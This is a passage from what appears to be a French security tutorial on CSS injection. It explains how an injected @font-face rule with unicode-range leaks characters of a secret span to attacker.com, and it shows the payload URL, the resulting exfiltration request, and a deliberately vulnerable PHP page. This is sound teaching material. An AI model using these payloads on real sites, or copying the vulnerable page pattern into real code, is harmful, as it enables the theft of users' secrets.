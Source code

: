 <figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Il y a donc bien un "s" dans le secret de la victime. L'attaquant peut ainsi continuer d'exfiltrer les autres caractères présents dans le secret :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=3);unicode-range:U%2b0033;}span{font-family:attack;}
```
{% endcode %}

{% code overflow="wrap" %}
```http
GET /?leak=3 HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (3).png" alt=""><figcaption></figcaption></figure>

Malheureusement, cette technique possède plusieurs limitations : il n'est pas possible de connaitre les caractères dupliqués (plusieurs caractères "3" dans l'exemple ci-dessus) ni l'ordre d'apparition de ces caractères.

### Récupération en fonction de l'id

Dans l'exemple précédent, tous les éléments `<span></span>` seront analysés, il sera difficile pour l'attaquant d'identifier quel caractère provient de quel élément de la page vulnérable. Pour contourner cela, il est possible de cibler un attribut `id` :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
     h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Injection CSS - récupération de la valeur d'un élément HTML par son id via @font-face et descripteur unicode</h1>
    <span id="secret">s3cr3t</span>
  </body>
```
